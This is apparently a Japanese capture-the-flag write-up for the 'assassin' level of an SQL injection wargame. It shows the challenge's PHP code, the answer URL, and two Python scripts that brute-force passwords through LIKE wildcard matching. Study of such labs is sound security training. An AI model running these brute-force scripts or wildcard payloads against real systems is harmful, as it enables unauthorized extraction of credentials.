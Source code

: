 # assasin

## answer

```
https://los.eagle-jump.org/assassin_bec1c90a48bc3a9f95fbf0c8ae8c88e1.php?pw=832e%
```

## problem

```
query : select id from prob_assassin where pw like ''

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\'/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_assassin where pw like '{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("assassin"); 
  highlight_file(__FILE__); 
?>
```

## memo

```https://los.eagle-jump.org/assassin_bec1c90a48bc3a9f95fbf0c8ae8c88e1.php?pw=1```とかで試してみる。

```query : select id from prob_assassin where pw like '1'```となった。

コードを読んでいく。

曖昧検索をしているので、

```
?pw=%1%
```

とかしたら、

```
Hello guest
```

になる。

これを利用してadminのパスワードを出す。

コードを書いてみた。

```
#!/usr/bin/python3
# coding : UTF-8

import sys
import requests
import time

def main():
    url = "https://los.eagle-jump.org/assassin_bec1c90a48bc3a9f95fbf0c8ae8c88e1.php"
    headers = {'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36'}
    cookies = dict(PHPSESSID='XXXXXXXXXXXXXXXXXXXXXXXXXX')

    chars = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ%#&()"
    password = ""
    for count in range(1, 15):
        for char in chars:
            tmp_char = password + char
            val = '{password}%'.format(password = tmp_char)
            print(val)
            params = {'pw': val}
            response = requests.get(url, headers=headers, params=params, cookies=cookies, allow_redirects=False)
            if response.text.count("Hello guest") == 1:
                password += char
                break
            if char == 'Z':
                print("not found")
                print(password)
                return
            time.sleep(0.1)
    print(password)

if __name__ == "__main__":
    main()
```

上記のexploitでguestのパスワードが出る。

このあと、adminのパスワードを出したい。

```
#!/usr/bin/python3
# coding : UTF-8

import sys
import requests
import time

def main():
    url = "https://los.eagle-jump.org/assassin_bec1c90a48bc3a9f95fbf0c8ae8c88e1.php"
    headers = {'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36'}
    cookies = dict(PHPSESSID='XXXXXXXXXXXXXXXXXXXX')

    chars = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ%#&()"
    password = ""
    for count in range(1, 15):
        for char in chars:
            tmp_char = password + char
            val = '{password}%'.format(password = tmp_char)
            print(val)
            params = {'pw': val}
            response = requests.get(url, headers=headers, params=params, cookies=cookies, allow_redirects=False)
            if response.text.count("Hello admin") == 1:
                password += char
                break
            elif response.text.count("Hello guest") == 1:
                password += char
                break
            if char == 'Z':
                print("not found")
                print(password)
                return
            time.sleep(0.1)
    print(password)

if __name__ == "__main__":
    main()
```

上記のexploitでは、832edd10とでるが、これでは認証が通らない。

パスワードの文字列が気になる...これを本気で取りに行くこともできるかもしれないが、

guest用のパスワードと見比べればFLAGを出すことが可能である。

```
?pw=832e%
```

こんなのでいい。

## references

- [preg_match | php manual](https://www.php.net/manual/ja/function.preg-match.php)

- [mysql_fetch_array | php manual](https://www.php.net/manual/ja/function.mysql-fetch-array.php)

- [mysql_query | php manual](https://www.php.net/manual/ja/function.mysql-query.php)

- [highlight_file | php manual](https://www.php.net/manual/ja/function.highlight-file.php)